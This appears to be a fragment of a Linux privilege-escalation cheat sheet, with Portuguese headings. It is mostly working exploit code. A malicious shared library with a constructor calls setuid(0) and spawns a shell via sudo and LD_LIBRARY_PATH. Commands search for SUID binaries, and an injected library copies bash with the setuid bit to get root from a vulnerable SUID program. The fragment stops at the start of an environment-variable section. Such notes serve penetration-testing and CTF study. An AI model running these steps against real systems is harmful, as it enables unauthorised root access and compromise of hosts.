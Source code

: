 ```
#include <stdio.h>
#include <stdlib.h>

static void hack() __attribute__((constructor));

void hack(){
    unsetenv("LD_LIBRARY_PATH");
    setgid(0);
    setuid(0);
    system("/bin/sh");
}
```

```
$ gcc -o /tmp/libcrypt.so.1 -shared -fPIC /tmp/shell.c
$ sudo LD_LIBRARY_PATH=/tmp apache2
```

#### SUID  
###### Encontrando arquivos suid:
```
$ find / -perm -u=s -type f 2>/dev/null
$ find / -type f -perm 04000 -ls 2>/dev/null
```

###### Suid em libliotecas:  
```
$ find / -type f -perm 04000 -ls 2>/dev/null
```

```
/usr/local/bin/suid-so
```

```
$ strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file|"
$ mkdir /home/user/.config
$ pico libcalc.c
```

```
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));
void inject(){
    system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}
```

```
$ gcc -shared -fPIC -o /home/user/.config/libcalc.so  /home/user/libcalc.c
$ /usr/local/bin/suid-so
```

###### Suid em variaveis de ambiente: (suid-env)  
```
$ find / -type f -perm 04000 -ls 2>/dev/null
```
